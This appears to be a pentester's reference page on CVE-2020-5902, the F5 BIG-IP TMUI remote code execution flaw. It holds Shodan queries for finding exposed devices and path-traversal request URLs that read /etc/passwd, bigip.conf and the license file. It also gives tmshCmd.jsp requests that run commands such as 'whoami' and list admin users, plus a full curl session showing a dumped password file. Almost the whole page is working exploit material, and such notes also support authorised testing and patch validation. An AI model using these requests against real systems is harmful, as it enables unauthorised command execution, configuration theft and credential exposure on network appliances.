 ```yaml
---
title : "CVE-2020-5902"
# pre : ' '
description : "In BIG-IP versions 15.0.0-15.1.0.3, 14.1.0-14.1.2.5, 13.1.0-13.1.3.3, 12.1.0-12.1.5.1, and 11.6.1-11.6.5.1, the Traffic Management User Interface (TMUI), also referred to as the Configuration utility, has a Remote Code Execution (RCE) vulnerability in undisclosed pages."
date : 2020-07-06T10:28:07+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## CVE-2020-5902 - F5 BIG-IP TMUI RCE

### Shodan search

```plain
title:"Big-IP&reg;" org:"Organization Name"
http.title:"BIG-IP&reg;- Redirect" org:"Organization Name"
http.favicon.hash:-335242539 "3992" org:"Organization Name"
```

### Metasploit module

```plain
modules/exploits/linux/http/f5_bigip_tmui_rce.rb
```

### Validate interface accessible

You need to get a 200OK on the following request.

```plain
curl -v -k  'https://{host}/tmui/login.jsp'
```

### Check (Local File Inclusion)

Interesting files:

```plain
https://{host}/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd
https://{host}/tmui/login.jsp/..;/tmui/system/user/authproperties.jsp
https://{host}/tmui/login.jsp/..;/tmui/util/getTabSet.jsp?tabId=jaffa
https://{host}/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/config/bigip.license
https://{host}/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/config/bigip.conf
```

### RCE

```plain
https://{host}/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=whoami
```

```plain
curl -v -k  'https://{host}/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin'
```

### Example RCE

```plain
$ curl -v -k 'https://10.10.10.10/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd'
*   Trying 10.10.10.10:443...
* TCP_NODELAY set
* Connected to 10.10.10.10 (10.10.10.10) port 443 (#0)
* ALPN, offering h2
* ALPN, offering http/1.1
* successfully set certificate verify locations:
*   CAfile: /etc/ssl/certs/ca-certificates.crt
  CApath: /etc/ssl/certs
* TLSv1.3 (OUT), TLS handshake, Client hello (1):
* TLSv1.3 (IN), TLS handshake, Server hello (2):
* TLSv1.2 (IN), TLS handshake, Certificate (11):
* TLSv1.2 (IN), TLS handshake, Server key exchange (12):
* TLSv1.2 (IN), TLS handshake, Server finished (14):
* TLSv1.2 (OUT), TLS handshake, Client key exchange (16):
* TLSv1.2 (OUT), TLS change cipher, Change cipher spec (1):
* TLSv1.2 (OUT), TLS handshake, Finished (20):
* TLSv1.2 (IN), TLS handshake, Finished (20):
* SSL connection using TLSv1.2 / ECDHE-RSA-AES256-GCM-SHA384
* ALPN, server did not agree to a protocol
[...SNIP...]
> GET /tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd HTTP/1.1
> Host: 10.10.10.10
> User-Agent: curl/7.68.0
> Accept: */*
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Mon, 06 Jul 2020 09:08:33 GMT
< X-Frame-Options: SAMEORIGIN
< Strict-Transport-Security: max-age=16070400; includeSubDomains
< Set-Cookie: JSESSIONID=E3418E061E43DC67AC2E9D59A4E42FC2; Path=/tmui; Secure; HttpOnly
< Content-Type: text/html;charset=ISO-8859-1
< Content-Length: 7630
< X-Content-Type-Options: nosniff
< X-XSS-Protection: 1; mode=block
< Content-Security-Policy: default-src 'self'  'unsafe-inline' 'unsafe-eval' data: blob:; img-src 'self' data:  http://127.4.1.1 http://127.4.2.1
< Vary: Accept-Encoding
<

{"output":"root:x:0:0:root:\/root:\/bin\/bash\nbin:x:1:1:bin:\/bin:\/sbin\/nologin\ndaemon:x:2:2:daemon:\/sbin:\/sbin\/nologin\nadm:x:3:4:adm:\/var\/adm:\/sbin\/nologin\nlp:x:4:7:lp:\/var\/spool\/lpd:\/sbin\/nologin\nmail:x:8:12:mail:\/var\/spool\/mail:\/sbin\/nologin\nuucp:x:10:14:uucp:\/var\/spool\/uucp:\/sbin\/nologin\noperator:x:11:0:operator:\/root:\/sbin\/nologin\nnobody:x:99:99:Nobody:\/:\/sbin\/nologin\ntmshnobody:x:32765:32765:tmshnobody:\/:\/sbin\/nologin\nadmin:x:0:500:Admin User:\/home\/admin:[...SNIP...]
```

### URL list

* [Nnd.nist.gov](https://nvd.nist.gov/vuln/detail/CVE-2020-5902)
* [Support.f5.com](https://support.f5.com/csp/article/K52145254)
* [Cve.mitre.org](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-5902)
* [Tenable.com](https://www.tenable.com/cve/CVE-2020-5902)
